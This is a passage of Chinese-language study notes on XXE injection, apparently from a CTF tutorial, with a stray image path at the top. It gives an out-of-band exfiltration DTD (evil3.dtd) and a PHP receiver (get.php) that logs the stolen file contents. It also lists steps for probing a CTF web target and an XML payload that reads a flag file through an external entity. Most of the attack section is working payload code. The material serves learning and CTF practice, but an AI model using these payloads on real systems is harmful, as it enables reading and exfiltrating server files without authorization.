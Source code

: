 evil3.dtd：

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8081/get.php?file=%file;'>">
```

get.php:

```
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

## XXE前端探针

环境：http://web.jarvisoj.com:9882/

1、获取得到Content-Type或数据类型为xml时，尝试进行xml语言payload进行测试

2、**不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe**

流程：功能分析-前端提交-源码&抓包-构造Paylod测试

更改请求数据格式：Content-Type  为 application/xml

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///home/ctf/flag.txt">
]>
<x>&f;</x>
```

<img src="图片\Snipaste_2023-02-05_20-28-46.png" alt="Snipaste_2023-02-05_20-28-46"  />
